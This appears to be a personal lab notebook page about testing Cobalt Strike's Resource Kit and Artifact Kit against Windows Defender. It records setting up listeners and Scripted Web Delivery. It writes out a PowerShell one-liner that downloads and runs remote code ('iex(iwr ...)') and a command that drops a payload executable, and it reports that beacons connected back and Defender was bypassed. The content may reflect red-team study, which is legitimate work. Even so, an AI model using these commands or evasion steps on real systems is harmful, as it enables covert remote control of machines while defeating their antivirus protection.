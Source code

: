 #### Resource Kit
- deleted `/opt/cobaltstrike` and making `cobaltstrike_30JAN2025` into `/opt/cobaltstrike` for final testing
- renamed `arsenal_kit.cna` to `arsenal_kit-AV-BYPASS.cna`

![[Pasted image 20250317163200.png]]
copied  the tested `arsenal_kit-NO-AV-BYPASS.cna` from [[6. Resource Kit - arsenal_kit-NO-AV-BYPASS.cna]] to `/opt/cobaltstrike/arsenal-kit/dist`

![[Pasted image 20250317163436.png]]

![[Pasted image 20250317163452.png]]
loading the `arsenal_kit-AV-BYPASS.cna` to make sure that it still bypasses `defender` for `resource kit`

![[Pasted image 20250317163614.png]]
setting up `listeners`
![[Pasted image 20250317163633.png]]
starting `Scripted Web Delivery`
![[Pasted image 20250317163823.png]]
turning defender on
![[Pasted image 20250317163950.png]]
`iex(iwr http://192.168.127.129/resource -useb)`
![[Pasted image 20250317164048.png]]
caught beacon and bypassed defender - good to go
![[Pasted image 20250317164103.png]]

#### Artifact kit

testing with dropping file on desktop with `defender` on

hosting file
![[Pasted image 20250317164559.png]]

`wget http://192.168.127.129:80/artifact2 -UseBasicP -OutFile "C:\Users\blaster\Desktop\artifacttest.exe"`

dropping on `desktop` to see if it gets eaten. - gotta revert the `VM` - defender on now

![[Pasted image 20250317164647.png]]
was able to drop on `desktop`
![[Pasted image 20250317164743.png]]
was able to catch beacon and bypass defender
![[Pasted image 20250317164827.png]]
so trying to trouble shoot this, the `sha256sum` is the same for the `LEFT` side which is the default cobaltstrike build with no `AV` protections as well as the `RIGHT` which means that the artifact kit files are loaded separately  from the `aggressor scripts`.

![[Pasted image 20250403214549.png]]

![[Pasted image 20250403214713.png]]

![[Pasted image 20250403214738.png]]

---------- 

### New Goals

- Create a script for the artifact kit that applies changes in a menu like script and can flip back and forth from AV - On and OFF